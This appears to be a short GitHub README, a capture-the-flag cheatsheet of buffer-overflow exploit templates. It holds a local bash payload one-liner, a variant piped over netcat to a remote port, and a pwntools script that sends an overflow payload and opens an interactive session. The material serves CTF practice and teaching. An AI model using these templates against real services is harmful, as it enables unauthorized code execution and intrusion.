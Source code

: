 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.

### buffer overflow

##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```

##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

